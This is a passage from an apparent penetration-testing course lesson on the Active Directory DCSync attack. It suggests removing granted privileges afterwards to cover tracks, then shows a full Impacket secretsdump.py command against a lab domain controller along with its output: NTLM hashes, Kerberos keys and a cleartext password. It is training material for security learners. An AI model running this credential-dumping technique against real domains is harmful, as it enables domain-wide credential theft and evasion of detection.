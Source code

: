 If we had certain rights over the user (such as [WriteDacl](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#writedacl)), we could also add this privilege to a user under our control, execute the DCSync attack, and then remove the privileges to attempt to cover our tracks. DCSync replication can be performed using tools such as Mimikatz, Invoke-DCSync, and Impacket’s secretsdump.py. Let's see a few quick examples.

Running the tool as below will write all hashes to files with the prefix `inlanefreight_hashes`. The `-just-dc` flag tells the tool to extract NTLM hashes and Kerberos keys from the NTDS file.

#### Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py

DCSync

```shell-session
swmpdnky@htb[/htb]$ secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 

Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

Password:
[*] Target system bootKey: 0x0e79d2e5d9bad2639da4ef244b30fda5
[*] Searching for NTDS.dit
[*] Registry says NTDS.dit is at C:\Windows\NTDS\ntds.dit. Calling vssadmin to get a copy. This might take some time
[*] Using smbexec method for remote execution
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: a9707d46478ab8b3ea22d8526ba15aa6
[*] Reading and decrypting hashes from \\172.16.5.5\ADMIN$\Temp\HOLJALFD.tmp 
inlanefreight.local\administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
lab_adm:1001:aad3b435b51404eeaad3b435b51404ee:663715a1a8b957e8e9943cc98ea451b6:::
ACADEMY-EA-DC01$:1002:aad3b435b51404eeaad3b435b51404ee:13673b5b66f699e81b2ebcb63ebdccfb:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:16e26ba33e455a8c338142af8d89ffbc:::
ACADEMY-EA-MS01$:1107:aad3b435b51404eeaad3b435b51404ee:06c77ee55364bd52559c0db9b1176f7a:::
ACADEMY-EA-WEB01$:1108:aad3b435b51404eeaad3b435b51404ee:1c7e2801ca48d0a5e3d5baf9e68367ac:::
inlanefreight.local\htb-student:1111:aad3b435b51404eeaad3b435b51404ee:2487a01dd672b583415cb52217824bb5:::
inlanefreight.local\avazquez:1112:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::

<SNIP>

d0wngrade:des-cbc-md5:d6fee0b62aa410fe
d0wngrade:dec-cbc-crc:d6fee0b62aa410fe
ACADEMY-EA-FILE$:des-cbc-md5:eaef54a2c101406d
svc_qualys:des-cbc-md5:f125ab34b53eb61c
forend:des-cbc-md5:e3c14adf9d8a04c1
[*] ClearText password from \\172.16.5.5\ADMIN$\Temp\HOLJALFD.tmp 
proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!
[*] Cleaning up...
```
